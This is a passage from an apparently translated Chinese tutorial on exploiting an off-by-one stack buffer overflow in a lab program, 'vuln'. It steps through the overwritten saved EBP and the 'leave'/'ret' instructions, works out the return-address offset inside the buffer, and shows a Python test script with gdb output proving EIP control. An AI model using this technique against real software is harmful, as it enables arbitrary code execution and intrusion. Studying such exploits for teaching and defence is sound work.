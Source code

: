 测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们需要在目标缓冲区‘buf’的起始端中找到偏移量。我们还需设置好返回地址。切记，在off-by-one漏洞中，我们并不是要覆盖栈中的实际返回地址（在栈缓冲区溢出漏洞利用代码中我们才覆盖实际返回地址），而是把攻击者控制的目标缓冲区‘buf’内的一个4字节内存区域视作返回地址位置，对这块区域进行覆盖（在off-by-one溢出之后）。因此，我们需要(从‘buf’中)找到这个返回地址位置的偏移量——而这个偏移量也是目标缓冲区‘buf’本身的一部分。  
这段话有点绕，没关系，继续往下读就好。  
我们先试着从 text 段地址0x0804840开始尝试理解CPU的执行：  

0x08048490 - call strcpy – 执行这个指令会导致off-by-one溢出，因此（储存在栈地址0xbffff2cc中的）foo的EBP值将会由0xbffff2d8变为0xbffff200。  
0x08048495 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。  
```
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```

0x08048495 - ret - 返回到foo的指令0x08048475。
0x08048475 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。
```
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

0x08048476 - ret - 返回到储存在ESP (0xbffff204)中的指令中。此时ESP指向被攻击者控制的缓冲区，因此攻击者可以回到任何他想要实现任意代码执行的地方。

现在我们回到“在目标缓冲区‘buf’中寻找返回地址的偏移量”的最初测试上。如堆栈布局图所示，‘buf’位于0xbffff158，并且由紧随其后的CPU执行中可知，目标缓冲区‘buf’内的返回地址位置是0xbffff204。因此目标缓冲区‘buf’中返回地址的偏移量是0xbffff204 – 0xbffff158 = 0xac，因此用户输入“A”172 + “B”4 + “A”*80，用“BBBB”覆盖了EIP。  

``` python
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call
buf = "A" * 172
buf += "B" * 4
buf += "A" * 80
print "Calling vulnerable program"
call(["./vuln", buf])
$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果显示，攻击者控制了返回地址。此时返回地址位于buf的偏移(0xac)处。有了上面这些信息，我们就可以写出能实现任意代码执行的漏洞利用程序了。  
